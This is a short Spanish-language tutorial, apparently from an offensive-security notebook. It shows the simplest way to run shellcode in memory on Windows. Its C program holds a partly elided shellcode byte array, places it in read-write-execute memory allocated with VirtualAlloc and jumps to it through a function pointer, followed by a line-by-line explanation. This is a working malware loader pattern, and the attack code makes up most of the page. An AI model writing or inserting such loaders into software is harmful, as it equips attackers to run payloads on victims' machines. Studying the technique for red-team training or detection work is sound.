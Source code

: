 # Shellcode Execution C++

Esta es la forma más simple de ejecutar shellcode en memoria, los pasos para lograr esto son los siguientes:

1. Almacenar el shellcode en una variable
2. Crear un espacio de memoria para este shellcode
3. Ejecutarlo

```c
#include "windows.h"

int main()
{
    unsigned char shellcode[] =
    "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52"
    "\x48\x31\xd2\x51\x56\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
    ...
    "\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41"
    "\xff\xe7\x58\x6a\x00\x59\xbb\xe0\x1d\x2a\x0a\x41\x89\xda\xff"
    "\xd5";


    void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}

```



**\*exec** es un puntero a la dirección que nos retornará **VirtualAlloc.** Esta dirección tendrá el espacio del shellcode y permisos de lectura, escritura y ejecución.&#x20;

Con **memcpy** copiaremos el contenido del shellcode hacia la dirección \*exec.

**((void(\*)()) exec)();** Esto lo que hace es, como en **exec** tenemos definido nuestro shellcode, es castear este bytearray a un function pointer con **void(\*)() exec,** se hace esto por que al llamar a esta función (sin argumentos por que así se la definió) ejecutara los bytes, ya que el compilador los interpretará como código máquina. Esto se hace con el paréntesis del final, es decir ejecutamos la función.



{% embed url="https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/memcpy-wmemcpy?view=msvc-170" %}

{% embed url="https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc" %}

